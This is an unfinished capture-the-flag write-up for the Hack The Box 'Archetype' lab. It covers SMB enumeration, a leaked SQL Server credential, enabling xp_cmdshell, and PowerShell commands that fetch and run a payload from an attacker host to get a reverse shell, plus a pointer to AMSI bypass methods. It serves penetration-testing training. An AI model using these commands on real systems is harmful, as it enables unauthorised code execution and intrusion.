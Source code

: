 # HTB - Starting points
## Archetype
Windows machine, beginner level
### Initial Access 
First of all, after creating instance, let's scan open ports by using nmap:
```
nmap -n  -sV <ip>
```
![Nmap results](nmap-scan.PNG)

As we can see, the machine have opened ports on 445, 139 (Windows SMB) and 1433 for SQL Server.
Let's try list and access to directories (```-L``` flag) as anonymous user (```-N``` flag).
```
smbclient -N -L \\\\<ip>\\
```
![SMB check](samba-chck.PNG)
```
smbclient -N \\\\<ip>\\backup
```
![SMB backup folder](samba-bckp.PNG)

Checking backups folder give us information about interesting file `prod.dtsConfig`. Let's download it and check what's inside - use `get` inside `smb>`.

>A DTSCONFIG file is an XML configuration file used to apply property values to SQL Server Integration Services (SSIS) packages.

![Dst file](dstbackp.PNG)

We obtained plaintext user and password for SQL server:

```Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;```

We can try to login to SQL server with obtained credentials.
I found useful link from [hacktricks.xyz](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#mssqlclient-py).
Used ```mssqlclient.py``` script from [Impacket repository](https://github.com/SecureAuthCorp/impacket) to gain access.

![Impacket](impacket.PNG)

```
mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth     
```

![mssql](mssql.PNG)

With that, we can try to check if we have the highest ```sysadmin``` privileges. 
```
SELECT IS_SRVROLEMEMBER ('sysadmin')
```
If we have in return ```1``` response, we have the access to sysadmin.
In SQL with the highest privileges we can set up remote code execution via SQL service (```xp_cmdshell```).
We need to enable it and reconfigure.
![sql_rce](sql_rce.PNG)

As we can see our SQL service also running in archetype\sql_svc user contex, so we need to obtain access to normal user.

Let's try to drop shell into user context.


I used [this website](https://www.revshells.com/) to create powershell reverse shell.

Then run a listener and host created shell via http server.
```
nc -lvnp 4444
python3 -m http.server 80
```
Download shell from http server via ```xp_cmdshell```:
```
xp_cmdshell "powershell Invoke-WebRequest -Uri "http://10.10.15.147/exploit.exe" -OutFile exploit.exe;"
xp_cmdshell "powershell "IEX (New-ObjectNet.WebClient).DownloadString("http://10.10.15.147/shell.ps1");"
```


We have to bypass AMSI (Anti Malware Security Interface)...
https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/

TBC...

### Privilege Escalation